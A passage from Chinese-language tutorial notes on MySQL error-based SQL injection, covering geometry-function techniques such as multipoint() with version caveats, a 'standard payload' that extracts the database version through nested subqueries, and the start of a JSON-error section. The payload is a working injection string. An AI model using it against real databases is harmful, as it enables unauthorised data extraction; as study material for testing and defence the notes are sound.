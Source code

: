 <img src="../../images/8-20-morning/整形溢出报错注入.png" alt="整形溢出报错注入" style="zoom:67%;" />

###### ③几何函数

* mysql版本属于[5.5.49,~]

* 高版本mysql无法得到数据，目前只有**mysql5.5.29、5.1.60**能得到**正确输出**

* geometrycollection()、**multipoint()**、polygon()、multipolygon()、linestring()、multilinestring()

* 标准payload

  ```
  1' and 
      (select multipoint(
          (select * from 
              (select * from 
                  (select * from
                      (select version())a
                  )b
               )c
      	)
      )
  ) -- qwe		
  ```

<img src="../../images/8-20-morning/几何函数报错注入.png" alt="几何函数报错注入" style="zoom:67%;" />

##### d. json报错

* 版本属于[5.7.8,~]

###### ①json_type

* 获取json值的类型，当我们**传入的值不属于json格式**则报错
